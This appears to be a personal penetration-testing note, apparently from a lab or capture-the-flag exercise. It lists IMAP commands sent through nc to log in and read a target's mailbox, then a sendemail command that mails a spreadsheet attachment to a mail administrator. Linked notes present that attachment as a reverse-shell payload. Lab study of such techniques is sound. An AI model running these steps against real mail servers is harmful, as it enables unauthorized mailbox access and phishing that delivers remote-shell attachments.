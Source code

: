 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Reading emails
```bash - kali
nc $TARGET 143
```

```bash - kali
tag login $USER@localhost $PASSWORD
```

```bash - kali
tag LIST "" "*"
```

```bash - kali
tag SELECT INBOX
```

Notice there are 5 total messages.

```bash - kali
tag STATUS INBOX (MESSAGES)
```

```bash - kali
tag fetch 1 (BODY[1])
```

We can read the rest of the messages with the following command:

```bash - kali
tag fetch 2:5 BODY[HEADER] BODY[1]
```

#### Send malicious email

Below, we are sending a malicious email with attachments from:
[[0._Reverse shells (WEB)#odt LibreOffice]]
OR
[[0._Reverse shells (WEB)#hta - ods LibreOffice]]

![[rlwrap]]

```bash - kali
sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s $TARGET:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a calc.ods
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
